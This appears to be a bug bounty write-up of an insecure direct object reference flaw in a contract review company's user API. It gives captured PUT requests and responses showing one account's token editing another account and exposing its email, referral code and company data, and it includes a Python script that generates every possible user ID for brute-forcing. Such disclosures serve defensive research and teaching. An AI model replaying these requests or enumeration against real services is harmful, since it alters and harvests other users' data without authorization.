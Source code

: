```yaml
---
layout: post
title: IDOR leads to Data leakage and Profile Update
categories: bug hunting 
---
```


In another bug bounty session of mine, I came across a bounty program of a "Contract Review" company.

In their web app, one could register with a first/last name, an email and their company's name (and a password ofc).

Upon trying to figure out how the web app works, I updated my profile by changing my first name from "vict0ni" to "vict0ni1337". I captured the request:

```
OPTIONS /users/5e335fafedd93a1f35b6ca27 HTTP/1.1
Host: clientapi.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: authorization,content-type
Origin: https://app.website.com
Connection: close
```
followed by:
```
PUT /users/5e335fafedd93a1f35b6ca27 HTTP/1.1
Host: clientapi.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2KyIjoiNWUzMzVmYWZlZGQ5M2UxZjM1YjZjYTI3IiwiaWF0IjoxNTgwNDk1MDQ3LCJleHAiOjE1NTM3MjQ5NTA0N30.LM8jJM46ZvFPwlzJ9hezXf_W0oOSpgvfpOastWU7UZA
Content-Length: 188
Origin: https://app.website.com
Connection: close

{"user":{"firstName":"vict0ni1337","lastName":"0x00sec","email":"vict0ni@bugcrowdninja.com","password":null,"dismissedGuides":{"contractHelpPopup":false},"company":"5e335faeedd93a1f35b6ca26"}}
```
resulting to this response:
```
HTTP/1.1 200 OK
Date: Thu, 06 Feb 2020 13:43:35 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 948
Connection: close
Set-Cookie: __cfduid=db2571d1ac9e83a96ca3265b9a0bf1d4c1580996613; expires=Sat, 07-Mar-20 13:43:33 GMT; path=/; domain=.website.com; HttpOnly; SameSite=Lax
Access-Control-Allow-Origin: https://app.website.com
ETag: W/"3b4-QbbUm9x0qtqg3/Bqcixd7mbQgqw"
Vary: Origin, Accept-Encoding
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 560d8dc0581c4098-HAM

{"users":[{"contracts":[],"createdAt":1580425135972,"updatedAt":1580996613958,"id":"5e335fafedd93a1f35b6ca27","email":"vict0ni@bugcrowdninja.com","firstName":"vict0ni1337","lastName":"0x00sec","role":"admin","resetPasswordTokenExpires":0,"dismissedGuides":{"contractHelpPopup":false},"dripId":"3measgw3gr1yjpgvddqn","deleted":false,"master":false,"lastLogoutDate":0,"company":"5e335faeedd93a1f35b6ca26"}],"companies":[{"createdAt":1580425133542,"updatedAt":1580428552059,"id":"5e335faeedd93a1f35b6ca26","name":"BugBounty","seq":5119,"vatId":"","phone":"1337","country":null,"employeeCount":"","singleReviewsAvailable":3,"monthlyReviewsAvailable":0,"referredByCode":"","referralCode":"zqpwr","referralExtraCredits":0,"subscription":{"id":"16A1DGRp7Up0s1Qu7","planId":"website-basic","planName":"website Basic"},"emailInAddress":"","links":{"users":"/companies/5e335faeedd93a1f35b6ca26/users","contracts":"/companies/5e335faeedd93a1f35b6ca26/contracts"}}]}
```
So I was making an OPTIONS request and then a PUT request with my personal userID ``5e335fafedd93a1f35b6ca27`` updating my first name (one could only change the first and last name).

I always make two accounts when testing a web app. I did the same thing for my second account, just to grab its userID. Then I thought what could happen if I used the userID of account B in a request to update the account A. So I did the exact same thing as described above, being authorized as a user of account A, but using the userID of account B:

```
PUT /users/5e3c8692f3d2c616c6ed78e9 HTTP/1.1
Host: clientapi.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2KyIjoiNWUzMzVmYWZlZGQ5M2UxZjM1YjZjYTI3IiwiaWF0IjoxNTgwNDk1MDQ3LCJleHAiOjE1NTM3MjQ5NTA0N30.LM8jJM46ZvFPwlzJ9hezXf_W0oOSpgvfpOastWU7UZA
Content-Length: 188
Origin: https://app.website.com
Connection: close

{"user":{"firstName":"vict0ni1337","lastName":"0x00sec","email":"vict0ni@bugcrowdninja.com","password":null,"dismissedGuides":{"contractHelpPopup":false},"company":"5e335faeedd93a1f35b6ca26"}}
```
resulting to this response:

```
HTTP/1.1 200 OK
Date: Thu, 06 Feb 2020 21:38:07 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 943
Connection: close
Set-Cookie: __cfduid=d78cefde78c34008ca49d162306b8fcfb1581025085; expires=Sat, 07-Mar-20 21:38:05 GMT; path=/; domain=.website.com; HttpOnly; SameSite=Lax
Access-Control-Allow-Origin: https://app.website.com
ETag: W/"3af-ctJNYxOVotnOZ8DYR4ejpainHVE"
Vary: Origin, Accept-Encoding
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 561044dd2b4fcd93-CDG

{"users":[{"contracts":[],"createdAt":1581024914019,"updatedAt":1581025085895,"id":"5e3c8692f3d2c616c6ad78e9","email":"yigoxa6599@jmail7.com","firstName":"vict0ni1337","lastName":"0x00sec","role":"admin","resetPasswordTokenExpires":0,"dismissedGuides":{"contractHelpPopup":false},"dripId":"5pjs1pjjwprphpkce0rj","deleted":false,"master":false,"lastLogoutDate":0,"company":"5e3c8690f3d2c616c6ed78e8"}],"companies":[{"createdAt":1581024911551,"updatedAt":1581024919638,"id":"5e3c8690f3d2c616c6ed78e8","name":"CompanyB","seq":5137,"vatId":"dummyVATID","phone":"1234567890","country":null,"employeeCount":"","singleReviewsAvailable":3,"monthlyReviewsAvailable":0,"referredByCode":"","referralCode":"plozx","referralExtraCredits":0,"subscription":{"id":"16BcmbRpl5Qvt1Lwv","planId":"website-basic","planName":"website Basic"},"emailInAddress":"","links":{"users":"/companies/5e3c8690f3d2c616c6ed78e8/users","contracts":"/companies/5e3c8690f3d2c616c6ed78e8/contracts"}}]}
```
So, by changing the userID to the account B's userID, I could update the account B's first and last name, grab it's mail, referral code, companyID, subscription plan, number of employees, phone number, the company's [VAT identification number](https://en.wikipedia.org/wiki/VAT_identification_number) etc., while being authorized as account A. With the referral code, a user could use it to gain $30 as a "gift" for getting referred by another user.

While that's all good, the userID of each account remains secret. There had to be some kind of MiTM attack to capture it and make a targeted attack. So I thought maybe I could generalize the attack, instead of targeting a single account.
By using dummy userIDs, in order to test the brute-force protection, I found out that the endpoint was vulnerable to brute-force attacks. Since the userID is following a certain pattern (a string of 24 hex characters), one could generate all the possible IDs and save them into a file with this python script:

```python
import itertools

string = '0123456789abcdef'
file = open('userIDs.txt', 'w')
for p in itertools.product(string, repeat=24):
	writing = ''.join(p) + '\n'
	file.write(writing)
file.close()
```

With enough computing power, an attacker could change the first/last name of all users and grab their account and company info.


Thanks for reading!